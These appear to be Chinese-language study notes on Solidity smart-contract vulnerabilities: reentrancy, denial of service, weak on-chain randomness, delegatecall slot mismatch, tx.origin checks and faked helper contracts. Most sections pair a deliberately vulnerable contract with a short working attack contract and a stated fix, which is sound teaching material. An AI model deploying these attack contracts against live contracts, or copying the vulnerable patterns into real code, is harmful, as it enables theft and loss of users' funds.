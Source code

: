 **重入攻击**

- 合约里先转账再更新状态
- 容易在状态还没更新完的时候，再次调用，发生多次转账
- 解决：先更新状态再转账

**DOS**

- denial of service 黑客执行完合约后，其他人再调用合约无效
- 比如合约里给之前的用户转账，判断转移完成的状态来更新状态变量
- 黑客合约不能接受转账，那么黑客调用完合约，判断转账的结果为 false，不会更新状态变量，其他人再调用还是保持给黑客转账的状态，一直为 false，状态变量永远不更新，调用无效

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;

    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        (bool sent, ) = currentWinner.call{value: currentAuctionPrice}("");
        if (sent) {
            currentAuctionPrice = msg.value;
            currentWinner = msg.sender;
        }
    }
}
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "./Good.sol";

contract Attack {
    Good good;

    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public payable {
        good.setCurrentAuctionPrice{value: msg.value}();
    }
}
```

**不要使用链上数据构造随机数**

- 很容易被黑客破解，因为链上数据都是公开的
- 使用 chainlink VRF 构造随机数

**delegatecall 状态变量更新**

- 如果 delegatecall 调用的合约方法，其修改的状态变量的 slot 和原合约中状态变量的 slot 不一致，就会被黑客篡改原合约的状态变量，导致异常

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

contract Good {
    address public helper;
    address public owner;
    uint public num;

    constructor(address _helper) {
        helper = _helper;
        owner = msg.sender;
    }

    function setNum( uint _num) public {
        helper.delegatecall(abi.encodeWithSignature("setNum(uint256)", _num));
    }
}
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

contract Helper {
    uint public num;

    function setNum(uint _num) public {
        num = _num;
    }
}
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "./Good.sol";

contract Attack {
    address public helper;
    address public owner;
    uint256 public num;

    Good public good;

    constructor(Good _good) {
        good = Good(_good);
    }

    function setNum(uint256 _num) public {
        owner = msg.sender;
    }

    function attack() public {
        // This is the way you typecast an address to a uint
        good.setNum(uint256(uint160(address(this))));
        good.setNum(1);
    }
}
```

**慎用 tx.orign**

- 返回一个交易最原始的账户地址
- 类似 msg.sender,区别：比如用户 user 调用合约 A 方法，合约 A 接着调用合约 B,在这个交易中，在合约 B 中 tx.orign 是 user 的地址，而 msg.sender 是合约 A 的地址
- 这会导致其他合约利用用户账户去调用其他合约，修改只有用户账户可以操作的状态

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

contract Good {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function setOwner(address newOwner) public {
        require(tx.origin == owner, "Not owner");
        owner = newOwner;
    }
}
```

attack.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "./Good.sol";

contract Attack {
    Good public good;

    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public {
        good.setOwner(address(this));
    }
}
```

**伪造外部合约**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;
import "./Helper.sol";

contract Good {
    Helper helper;
    constructor(address _helper) payable {
        helper = Helper(_helper);
    }

    function isUserEligible() public view returns(bool) {
        return helper.isUserEligible(msg.sender);
    }

    function addUserToList() public  {
        helper.setUserEligible(msg.sender);
    }

    fallback() external {}
}
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

contract Helper {
    mapping(address => bool) userEligible;

    function isUserEligible(address user) public view returns(bool) {
        return userEligible[user];
    }

    function setUserEligible(address user) public {
        userEligible[user] = true;
    }

    fallback() external {}
}
```

伪造 helper，并用自己部署一个 good 调用虚假的 helper，因为虚假合约的 abi 和 helper 一致

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

contract Malicious {
    address owner;
    mapping(address => bool) userEligible;

    constructor() {
        owner = msg.sender;
    }

    function isUserEligible(address user) public view returns(bool) {
        if(user == owner) {
            return true;
        }
        return false;
    }

    function setUserEligible(address user) public {
        userEligible[user] = true;
    }

    fallback() external {}
}
```

- 解决方法： 要 verify 用到的外部合约，让大家都知道合约的实现
- 不要用直接使用地址转换 Helper(address), 要重新创建一个外部合约 new Helper();

